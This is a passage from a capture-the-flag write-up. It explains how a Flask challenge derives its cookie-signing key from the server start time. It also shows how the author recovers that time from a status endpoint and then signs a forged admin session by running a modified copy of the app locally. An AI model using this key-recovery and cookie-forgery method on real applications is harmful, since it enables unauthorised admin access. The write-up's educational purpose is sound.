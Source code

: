 ```python
        uid = uuid.uuid5(secret, username)
        session['username'] = username
        session['uid'] = str(uid)
        return redirect(f'/user/{uid}')
```

4. `/user/<uid>`: sets the `is_admin` field in the cookie to `false`

```python
@app.route('/user/<uid>')
def user_page(uid):
    try:
        uid = uuid.UUID(uid)
    except ValueError:
        abort(404)
    session['is_admin'] = False
    return 'Welcome Guest! Sadly, you are not admin and cannot view the flag.'
```

At the start of the file, it becomes clear that the secret key used for signing cookies is generated based on the server's start time.

```python
server_start_time = datetime.now()
server_start_str = server_start_time.strftime('%Y%m%d%H%M%S')
secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
app.secret_key = secure_key
```

### Attack

Since the secret key for signing cookies is generated based on the server's start time, we can retrieve it by querying the `/status` endpoint and doing some simple calculations. To speed things up, I used ChatGPT, which provided me with the following Python code:

```python
from datetime import datetime, timedelta

current_time = datetime.strptime('2024-09-23 14:10:54', '%Y-%m-%d %H:%M:%S')
uptime_str = '0:00:39'

uptime_parts = list(map(int, uptime_str.split(':')))
uptime = timedelta(hours=uptime_parts[0], minutes=uptime_parts[1], seconds=uptime_parts[2])

server_start_time = current_time - uptime
formatted_server_start_time = server_start_time.strftime('%Y%m%d%H%M%S')
print(f"Server start time: {formatted_server_start_time}")
```

Output:

```
20240923141015
```

With the secret key in hand, I modified the original source code. I removed the `if` statement that blocked the use of the usernames starting with `admin`, added a line to set `is_admin` to `True`, and ran the server locally.
